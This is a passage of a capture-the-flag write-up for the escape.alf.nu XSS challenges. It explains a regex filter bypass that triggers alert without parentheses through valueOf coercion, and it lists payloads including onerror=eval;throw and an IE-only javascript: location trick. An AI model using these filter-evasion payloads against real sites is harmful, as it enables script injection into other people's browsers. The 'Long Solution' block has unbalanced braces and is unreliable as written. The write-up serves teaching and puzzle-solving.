 ```
    			console.log('' + val);
    			} catch (_) {
   				 console.log('Crashed: '+_);
   	 			}	
    			} else {
    		console.log('Rejected.');
    		}
    	}
```

This level is based on a real world filter described by Stefano Di Paola in this post

If we study the regexp carefully we will see that the letter “s” is allowed since its within the “u-r” interval, that allows us to use the word “self” and with that we can craft a valid JSON payload. The trick is that we will be adding “0” to our object so the JS engine will need to calculate the valueOf our object. So if we define the “valueOf” function as the “the_easy_but_expensive_way_out” global function, we will be able to invoke it during the arithmetic operation. The problem is that it will alert “0” since “i” its initialized with “0”, but we can do it twice to alert a “1”.

Long Solution:

```
	{	
		"valueOf":self["the_easy_but_expensive_way_out"]
	}+0,
		"valueOf":self["the_easy_but_expensive_way_out"]
	}
```

That is a nice trick to execute a function when parenthesis are not allowed. But there some more like Gareth famous one:

```
    	onerror=eval;throw['=1;alert\x281\x29']
```

You can get a shorter solution for IE only as explained by Stefano Di Paola in his post

```
	{
		"valueOf":self["location"],"toString":[]["join"],
		0:"javascript:alert(1)","length":1
	}
```

And thats all folks, thanks for reading!

##[Part1](http://evilddog.github.io/2014/10/12/escape-alf-nu-write-ups-2/)
